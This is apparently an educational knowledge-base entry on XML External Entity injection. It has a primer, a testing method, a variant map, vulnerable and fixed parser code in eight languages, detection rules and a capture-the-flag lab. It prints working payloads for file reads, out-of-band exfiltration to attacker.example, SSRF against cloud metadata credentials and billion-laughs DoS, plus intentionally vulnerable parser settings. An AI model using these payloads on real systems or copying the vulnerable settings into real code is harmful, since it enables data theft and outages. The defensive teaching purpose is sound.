

<!--
  Translation bar (added in the translation phase - D1/D10):
  English (this file)

  Writing style: no em dashes in prose. Use commas, colons, parentheses, or
  hyphens. (OWASP IDs keep their official en-dash format.)
-->

# XML External Entity (XXE) Injection

`A05:2025 – Injection` · Web Vulnerability Knowledge Base

## Summary

XML External Entity injection (XXE) is what happens when an application parses
XML from an untrusted source with a parser that is willing to follow **external
entities**. XML has a feature, inherited from its DTD (Document Type Definition)
machinery, that lets a document define named shortcuts called entities and even
pull their contents from an external source such as a file or a URL. If the
parser resolves those external references while processing attacker-controlled
XML, the attacker can make the server read local files (`/etc/passwd`, source
code, secrets), open connections to internal systems (Server-Side Request
Forgery), or exhaust memory and CPU with a self-referential "bomb".

The flaw is almost never in your own XML. It is in the parser configuration.
Most XML libraries were designed in an era when DTDs and external entities were
normal, so many of them resolve external entities **by default** or with one
innocent-looking flag. The whole vulnerability class comes down to a single
question: when your code hands untrusted bytes to an XML parser, is that parser
allowed to go and fetch things named inside the document? If yes, you have XXE.

This entry teaches the XML you need first (elements, the prolog, DTDs), then the
different kinds of entities (this is the core idea, so we spend time here), then
a testing methodology for finding XXE, and finally the full map of what XXE can
do: in-band file read, **error-based** file read (the technique the lab uses),
blind out-of-band exfiltration, SSRF, and denial of service. The runnable lab
lets you retrieve `/etc/passwd` through an error message and capture the flag
planted inside it.

## OWASP Top 10 alignment

- **Category:** `A05:2025 – Injection`
- **Why it maps here:** XXE is an injection flaw. Untrusted data (the XML
  document, specifically its DTD) is interpreted as code (entity and markup
  declarations) by the parser, and that interpretation causes unintended file
  reads and network calls. It is tracked as **CWE-611 (Improper Restriction of
  XML External Entity Reference)**, with close relatives **CWE-827 (Improper
  Control of Document Type Definition)**, **CWE-776 (XML Entity Expansion, the
  "billion laughs" DoS)**, and **CWE-918 (Server-Side Request Forgery)** when the
  entity points at a URL.
- **A note on the edition:** in the widely cited **OWASP Top 10:2017**, XXE had
  its own category, **A4:2017 - XML External Entities**. From **2021** onward it
  was folded into the broader **Injection** category (`A03:2021`, and `A05:2025`
  in the 2025 edition this KB tracks). The vulnerability did not change; OWASP
  simply grouped it with the other injection flaws. When a report or exam
  references "A4 XXE", it is talking about the 2017 numbering.

## A quick primer on XML

XML (eXtensible Markup Language) is a text format for structured data. A small
document looks like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<order id="42">
  <customer>Ada Lovelace</customer>
  <total currency="GBP">19.99</total>
</order>
```

The pieces that matter for XXE:

- **Prolog:** the optional first line, `<?xml version="1.0" encoding="UTF-8"?>`.
- **Elements:** `<order>...</order>`, which nest to form a tree with exactly one
  **root** element.
- **Attributes:** `id="42"`, `currency="GBP"`, name/value pairs on an element.
- **DTD (Document Type Definition):** an optional grammar for the document,
  introduced by a `<!DOCTYPE ...>` declaration. The DTD is where entities are
  declared, and it is the part of XML that XXE abuses. A DTD can be **internal**
  (inline, in square brackets after the root name) or **external** (loaded from a
  file or URL).

```xml
<?xml version="1.0"?>
<!DOCTYPE order [               <!-- internal DTD subset starts here -->
  <!ELEMENT order (customer, total)>
  <!ENTITY company "WildParts Ltd">
]>                              <!-- ...and ends here -->
<order><customer>&company;</customer><total>0</total></order>
```

- **Well-formed vs valid:** a document is **well-formed** if it obeys XML syntax
  (one root, tags balanced, attributes quoted). It is **valid** if it also
  conforms to a DTD or schema. XXE does not need the document to be valid, only
  well-formed and parsed by a DTD-processing parser.

## Entities: the heart of XXE

An **entity** is a named placeholder that the parser expands during parsing. Think
of it as a macro. There are several kinds, and telling them apart is the single
most useful thing for understanding XXE.

| Kind | Declared as | Referenced as | What it does |
|---|---|---|---|
| **Predefined** | (built in) | `&lt; &gt; &amp; &apos; &quot;` | the five characters that are otherwise special in XML |
| **Internal general** | `<!ENTITY name "value">` | `&name;` | a shortcut whose value is literal text in the DTD |
| **External general** | `<!ENTITY name SYSTEM "URI">` | `&name;` | **value is loaded from the URI** (file or URL). This is the classic XXE primitive |
| **Internal parameter** | `<!ENTITY % name "value">` | `%name;` | like a general entity, but usable **only inside the DTD** |
| **External parameter** | `<!ENTITY % name SYSTEM "URI">` | `%name;` | DTD-only, value loaded from a URI. The building block of blind/error-based XXE |

Two distinctions do all the work:

1. **General (`&x;`) vs parameter (`%x;`).** General entities are referenced in
   the document body. Parameter entities are referenced only inside the DTD, and
   they are the ones used to build the advanced blind and error-based payloads,
   because they can be nested and expanded in places general entities cannot.
2. **Internal vs external.** Internal entities hold literal text. **External**
   entities carry a `SYSTEM` (or `PUBLIC`) identifier that tells the parser to go
   and fetch content. That fetch is the vulnerability. The two schemes that
   matter most are `file://` (read a local file) and `http://` (make a request,
   which is SSRF).

The canonical XXE payload is just an external general entity whose SYSTEM
identifier is a `file://` URL, referenced once in the body:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

When a vulnerable parser processes this, `&xxe;` is replaced by the contents of
`/etc/passwd`, and wherever the application prints, stores, or errors on that
value, the file leaks.

## How XXE works

Three things line up: an application that **accepts XML from the outside**, a
**parser configured to process the DTD and resolve external entities**, and a
**path by which the expanded value becomes observable** (reflected in a response,
stored, or, as in this lab, quoted in an error).

```
untrusted XML  ->  parser with external entities enabled  ->  file/URL fetched
                                                          ->  value observable
```

The reason this is so common is that the dangerous behaviour is often the
**default**, or a single flag away:

- Java's `DocumentBuilderFactory`, `SAXParserFactory`, and `XMLInputFactory`
  resolve external entities unless explicitly hardened.
- PHP's `DOMDocument` is safe by default in modern versions, but becomes
  vulnerable the moment `LIBXML_NOENT` or `LIBXML_DTDLOAD` is passed (the flag
  name `NOENT` is famously misleading: it means "substitute entities", i.e. turn
  resolution ON).
- Python's `lxml` does not resolve external entities by default, but a developer
  who sets `resolve_entities=True` (often to expand harmless internal entities)
  turns the whole class on. The stdlib `xml.sax` / `xml.dom` were historically
  unsafe; `defusedxml` exists specifically to fix them.
- .NET before 4.5.2 resolved DTDs by default; older `XmlDocument` / `XmlReader`
  code is frequently still vulnerable.

The lab uses `lxml` with `resolve_entities=True` and `load_dtd=True`, a realistic
"someone enabled entity expansion for a good reason and did not realise it also
enables external entities" configuration.

## Testing for XXE

A disciplined methodology, from safest signal to full exploitation:

1. **Find the XML.** Any request whose body is XML, or that has
   `Content-Type: application/xml` / `text/xml`, is a candidate. So are SOAP
   endpoints, SAML assertions, RSS/Atom, SVG and DOCX/XLSX uploads (these are ZIP
   files full of XML), and REST endpoints that "also accept XML".
2. **Confirm the parser reads your DTD.** Reference an **undefined** entity and
   watch the error: `<foo>&nope;</foo>` inside a `DOCTYPE`. A message like
   "Entity 'nope' not defined" tells you the DTD is being processed, the
   precondition for XXE. (In the lab, this is exactly the parser error you see.)
3. **Prove entity expansion with an internal entity.** Harmless, and it confirms
   the mechanism before you touch a file:
   ```xml
   <!DOCTYPE foo [ <!ENTITY test "HELLO"> ]>
   <foo>&test;</foo>
   ```
   If `HELLO` appears where the value is used, expansion is on.
4. **Escalate to an external entity (file read).** Point a `SYSTEM` entity at a
   file that always exists and is world-readable:
   ```xml
   <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
   <foo>&xxe;</foo>
   ```
   Look for the file in the response. On Windows use
   `file:///c:/windows/win.ini`.
5. **If nothing is reflected, go error-based or blind.** When the app does not
   echo the value, try to make it appear in an **error message** (see below), or
   exfiltrate **out-of-band** to a server you control.
6. **Test for SSRF and DoS carefully.** Swap the `file://` URL for an
   `http://internal-host/` URL to probe SSRF, and be aware that entity-expansion
   payloads can crash the target (do not fire "billion laughs" at production).

### Fingerprinting the parser

The error text often names the parser (`libxml2`, `Xerces`, `MSXML`, `Saxon`),
which tells you which bypasses and features are available (for example, whether
**XInclude** or parameter-entity tricks will work). Different parsers also differ
in whether `no_network` still allows `file://`, whether they cap entity
expansion, and whether they support the `PUBLIC` identifier form.

## Attack path



1. The attacker finds an endpoint that accepts XML (here, the WildParts store's
   "Check stock" feature).
2. They confirm the DTD is processed by referencing an undefined entity and
   reading the parser error.
3. They declare an external entity, `<!ENTITY xxe SYSTEM "file:///etc/passwd">`,
   and reference `&xxe;` inside a field the application uses.
4. The parser resolves the entity, reads the file, and splices its contents into
   the document before the application logic runs.
5. The application tries to use that value (a stock lookup), fails because the
   value is file text rather than a product id, and returns an **error that
   quotes the value back**. The file leaks through the error (error-based
   exfiltration).
6. The attacker reads the flag from the leaked `/etc/passwd`, then pivots: other
   files, internal HTTP endpoints (SSRF), or a DoS payload.

## The XXE variant map

XXE is a family. The same external-entity primitive drives several distinct
attacks; which one you use depends on what the application lets you observe.

### 1. In-band file retrieval (classic)

The entity value is reflected directly in the response. The simplest case:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<productId>&xxe;</productId>
```

If the app echoes `productId` back, you see the file. Caveat: files containing
`<`, `&`, or other XML-special characters can break parsing when injected through
a **general** entity; for those, use the out-of-band or error-based techniques,
which read the file through a **parameter** entity into a URI (where the content
is not re-parsed as markup).

### 2. Error-based file retrieval (this lab)

Used when the response does not reflect the value but **does** surface errors.
There are two flavours:

- **Application error (the lab).** The app puts your value into an error message.
  The stock lookup fails on the file's contents and reports
  `Stock lookup failed: no product matches id '<file contents>'`. No special DTD
  gymnastics are needed; a plain external general entity is enough, because the
  application itself hands you the error.
- **Parser error (advanced, needs an external DTD).** When only the XML
  **parser's** error is visible, you provoke it to include the file. Because
  libxml2 forbids nested parameter entities in the **internal** subset
  ("PEReferences forbidden in internal subset"), the nested definitions live in
  an **external** DTD that you host:
  ```xml
  <!-- document -->
  <!DOCTYPE foo [
    <!ENTITY % dtd SYSTEM "http://attacker.example/evil.dtd">
    %dtd;
  ]>
  <foo>x</foo>
  ```
  ```dtd
  <!-- evil.dtd on your server -->
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
  ```
  The parser tries to open `file:///nonexistent/<contents of /etc/passwd>`,
  fails, and prints the whole path, contents included, in its error. The lab teaches the application-error
  flavour because it is self-contained and offline; the hints point at this
  parser-error variant for completeness.

### 3. Blind / out-of-band (OOB) exfiltration

No reflection, no useful errors. You exfiltrate to a server you control using an
external parameter entity that builds a URL out of the file contents:

```dtd
<!-- evil.dtd -->
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.example/?x=%file;'>">
%eval;
%exfil;
```

The target makes an HTTP request to your server with the file contents in the
query string. Works only for short, single-line files over HTTP (newlines break
the URL), which is why `/etc/hostname` or a one-line secret is the usual target;
FTP-based variants relax some of these limits.

### 4. SSRF via XXE

Point the entity at a URL instead of a file and the server makes the request for
you, from inside the network:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<foo>&xxe;</foo>
```

Classic targets are cloud metadata endpoints (`169.254.169.254`), internal admin
panels, and port scanning of the internal range. This is why hardening should
disable network access in the parser as well as DTDs.

### 5. Denial of service: entity expansion ("billion laughs")

Nested internal entities expand exponentially, exhausting memory and CPU with a
tiny document:

```xml
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!-- ...up to lol9... -->
]>
<lolz>&lol9;</lolz>
```

Nine levels turn three characters into a billion. A related variant, **quadratic
blowup**, uses one large entity referenced many times. Modern parsers cap entity
expansion by default (libxml2 does, unless you enable "huge" mode), which is why
this is a defence-in-depth reason to keep DTDs disabled entirely.

### 6. Other vectors worth knowing

- **XInclude:** when you cannot control the DOCTYPE (for example the XML is
  wrapped by the server), `<xi:include href="file:///etc/passwd" parse="text"/>`
  can achieve file read if XInclude processing is on.
- **File uploads:** SVG images and Office documents (DOCX/XLSX/PPTX are ZIPs of
  XML) are parsed as XML on the server; an XXE payload inside them fires during
  processing (thumbnailing, conversion). SVG is the most common upload vector.
- **SAML and SOAP:** authentication and web-service XML is a rich XXE surface
  because it is parsed early, often before auth checks.

## Vulnerable & fixed code

> Every block shows the same idea: **vulnerable** parses untrusted XML with DTDs
> and external entities enabled; **fixed** turns DTD processing and external-entity
> resolution off before parsing. The single durable rule is: *do not resolve
> external entities in untrusted XML.* If you never need DTDs (almost always the
> case for data interchange), disabling them outright is the strongest fix and
> stops file read, SSRF, and entity-expansion DoS at once.

<details open><summary><b>Python</b></summary>

**Vulnerable**
```python
from lxml import etree

# VULNERABLE: load_dtd + resolve_entities let &xxe; be pulled from file:///
parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
root = etree.fromstring(data, parser)
```
**Fixed**
```python
from lxml import etree

# FIXED: do not load the DTD, do not resolve entities, no network.
parser = etree.XMLParser(
    resolve_entities=False,
    no_network=True,
    load_dtd=False,
    dtd_validation=False,
)
root = etree.fromstring(data, parser)
# Best of all: use defusedxml, which ships safe defaults.
#   from defusedxml.lxml import fromstring
```
Docs: https://lxml.de/api/lxml.etree.XMLParser-class.html
</details>

<details><summary><b>Java</b></summary>

**Vulnerable**
```java
// VULNERABLE: a default factory resolves external entities
DocumentBuilderFactory f = DocumentBuilderFactory.newInstance();
Document doc = f.newDocumentBuilder().parse(input);
```
**Fixed**
```java
// FIXED: forbid DOCTYPE declarations entirely (OWASP-recommended one-liner effect)
DocumentBuilderFactory f = DocumentBuilderFactory.newInstance();
f.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
f.setFeature("http://xml.org/sax/features/external-general-entities", false);
f.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
f.setExpandEntityReferences(false);
Document doc = f.newDocumentBuilder().parse(input);
```
Docs: https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#java
</details>

<details><summary><b>JavaScript</b></summary>

**Vulnerable**
```javascript
// VULNERABLE: libxmljs with entity substitution and DTD loading on
const libxmljs = require("libxmljs");
const doc = libxmljs.parseXml(data, { noent: true, dtdload: true });
```
**Fixed**
```javascript
// FIXED: parse with entity expansion off, no DTD load, no network (defaults)
const libxmljs = require("libxmljs");
const doc = libxmljs.parseXml(data, { noent: false, dtdload: false, nonet: true });
// Or prefer a pure-data parser (fast-xml-parser) that has no external-entity support.
```
Docs: https://github.com/libxmljs/libxmljs
</details>

<details><summary><b>TypeScript</b></summary>

**Vulnerable**
```typescript
// VULNERABLE: types do not change parser behaviour; entities still resolve
import * as libxmljs from "libxmljs";
const doc = libxmljs.parseXml(data, { noent: true, dtdload: true });
```
**Fixed**
```typescript
// FIXED: entity expansion off, no DTD load, no network
import * as libxmljs from "libxmljs";
const doc = libxmljs.parseXml(data, { noent: false, dtdload: false, nonet: true });
```
Docs: https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
</details>

<details><summary><b>PHP</b></summary>

**Vulnerable**
```php
<?php
// VULNERABLE: LIBXML_NOENT ("substitute entities") + LIBXML_DTDLOAD enable XXE
$doc = new DOMDocument();
$doc->loadXML($data, LIBXML_DTDLOAD | LIBXML_NOENT);
```
**Fixed**
```php
<?php
// FIXED: block the external-entity loader and do not pass the dangerous flags
libxml_set_external_entity_loader(function () { return null; });
$doc = new DOMDocument();
$doc->loadXML($data);   // no entity expansion, no external fetch
```
Docs: https://www.php.net/manual/en/function.libxml-set-external-entity-loader.php
</details>

<details><summary><b>Ruby</b></summary>

**Vulnerable**
```ruby
# VULNERABLE: NOENT tells Nokogiri to resolve external entities
doc = Nokogiri::XML(data) { |config| config.dtdload.noent }
```
**Fixed**
```ruby
# FIXED: use the safe defaults; never enable NOENT on untrusted input
doc = Nokogiri::XML(data) { |config| config.nonet.strict }
# Nokogiri does not resolve external entities unless NOENT is explicitly set.
```
Docs: https://nokogiri.org/rdoc/Nokogiri/XML/ParseOptions.html
</details>

<details><summary><b>Go</b></summary>

**Vulnerable**
```go
// VULNERABLE: only if you add a DTD-processing decoder that resolves SYSTEM
// entities (some third-party XML libraries do). Such a decoder exposes files.
dec := xmllib.NewDecoderWithDTD(input) // resolves <!ENTITY ... SYSTEM ...>
```
**Fixed**
```go
// FIXED: the standard library encoding/xml does NOT expand external entities.
// Leave Decoder.Entity as the default and add no custom resolver.
dec := xml.NewDecoder(input)
for {
    tok, err := dec.Token()
    if err != nil {
        break
    }
    _ = tok
}
```
Docs: https://pkg.go.dev/encoding/xml#Decoder
</details>

<details><summary><b>C#</b></summary>

**Vulnerable**
```csharp
// VULNERABLE: DtdProcessing.Parse plus a URL resolver follows external entities
var settings = new XmlReaderSettings {
    DtdProcessing = DtdProcessing.Parse,
    XmlResolver = new XmlUrlResolver()
};
var reader = XmlReader.Create(input, settings);
```
**Fixed**
```csharp
// FIXED: prohibit DTDs and use no resolver (the .NET 4.5.2+ safe default)
var settings = new XmlReaderSettings {
    DtdProcessing = DtdProcessing.Prohibit,
    XmlResolver = null
};
var reader = XmlReader.Create(input, settings);
```
Docs: https://learn.microsoft.com/en-us/dotnet/api/system.xml.xmlreadersettings.dtdprocessing
</details>

## Detection signatures

- **Input markers in traffic and logs:** a `<!DOCTYPE` or `<!ENTITY` token in any
  request body, and especially `SYSTEM`, `PUBLIC`, `file://`, `php://`,
  `expect://`, `jar:`, `netdoc:`, or an `http://` / `https://` URL to an internal
  or metadata host (`169.254.169.254`, `localhost`, RFC1918 ranges) inside XML.
- **Suspicious response content:** a field or error that echoes `root:x:0:0:`
  (passwd), `[extensions]` (win.ini), or the literal text of config files is a
  confirmed read. Parser errors that quote long or path-like strings suggest an
  error-based leak.
- **Out-of-band signals:** DNS or HTTP callbacks to attacker infrastructure
  originating from the app server, right after an XML request, indicate blind XXE
  or SSRF. Watch for outbound requests from a service that normally makes none.
- **Behavioural anomalies:** tiny XML bodies that cause large memory/CPU spikes
  (entity-expansion DoS), or repeated XML requests probing different `file://`
  paths.
- **SAST patterns:** XML parser construction where DTDs or entity resolution are
  enabled on untrusted input, for example `resolve_entities=True` /
  `load_dtd=True` (lxml), `LIBXML_NOENT` / `LIBXML_DTDLOAD` (PHP), `.noent` /
  `.dtdload` (Nokogiri), `DtdProcessing.Parse` with a non-null `XmlResolver`
  (.NET), or a `DocumentBuilderFactory` without `disallow-doctype-decl`.
- **Illustrative SIEM query (Splunk-style)** - DOCTYPE/ENTITY in request bodies:
  ```
  index=web sourcetype=access_combined
  | regex form_data="(?i)(<!DOCTYPE|<!ENTITY|SYSTEM\s+[\"']|file://|169\.254\.169\.254)"
  | stats count values(uri_path) BY src_ip
  | where count > 3
  ```

## Remediation checklist

- [ ] **Disable DTD processing entirely** on every parser that touches untrusted
  XML. This is the strongest, simplest control and it stops file read, SSRF, and
  entity-expansion DoS in one move. Use `disallow-doctype-decl` (Java),
  `DtdProcessing.Prohibit` (.NET), and do not enable DTD/entity flags elsewhere.
- [ ] **Do not resolve external entities.** Where DTDs cannot be fully disabled,
  turn off external general and parameter entities and set the resolver to null /
  no-op.
- [ ] **Turn off network access in the parser** (`no_network` / `nonet` / null
  `XmlResolver`) so even a resolved entity cannot reach `file://` remotely or
  `http://` internal hosts.
- [ ] **Prefer a safe library or wrapper.** Use `defusedxml` (Python), a
  pure-data parser (`fast-xml-parser` in Node), or your platform's hardened
  configuration rather than hand-tuning flags.
- [ ] **Cap entity expansion and document size** as defence in depth against DoS
  (keep the parser's built-in limits; do not enable "huge" modes).
- [ ] **Validate the format you actually need.** If clients send JSON-shaped data,
  accept JSON. Much XXE exists only because an endpoint "also accepts XML" that
  nobody uses.
- [ ] **Harden file-upload processing.** Treat SVG and Office documents as XML:
  parse them with the same hardened configuration, since they are a common XXE
  entry point.
- [ ] **Run the parser with least privilege** so a successful read reaches as few
  sensitive files as possible, and keep secrets out of predictable paths.

## References

- OWASP - XML External Entity (XXE) Processing: https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
- OWASP Cheat Sheet - XML External Entity Prevention: https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
- OWASP Web Security Testing Guide - Testing for XML Injection: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection
- PortSwigger Web Security Academy - XXE injection: https://portswigger.net/web-security/xxe
- MITRE - CWE-611 (Improper Restriction of XML External Entity Reference): https://cwe.mitre.org/data/definitions/611.html
- MITRE - CWE-776 (XML Entity Expansion): https://cwe.mitre.org/data/definitions/776.html

## Lab

A runnable, intentionally vulnerable app lives in [`lab/`](lab/). "WildParts
Store" is a spare-parts shop whose **Check stock** feature parses an XML document
you fully control, with a parser that resolves external entities.

```bash
cd lab
docker compose up --build      # build once (needs network), then runs offline
# open http://127.0.0.1:8000
```

**Goal:** recover the **MD5 flag** planted inside `/etc/passwd` (in the comment
field of an extra `wwa-flag` account line). The response never reflects a
successful lookup, so you retrieve the file the **error-based** way:

1. Confirm the parser reads your DTD (reference an undefined entity, read the
   error).
2. Prove entity expansion with an internal entity (`<!ENTITY test "3">`).
3. Declare an external entity and reference it in `<productId>`:
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
   <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
   ```
4. The lookup fails and the app quotes the file contents back in its error. Read
   the `wwa-flag` line, submit the flag. It rotates on every restart.

The big input box holds the full multi-line XML request so you can edit the DTD
and entities directly, exactly as you would when tampering with a real XML API.
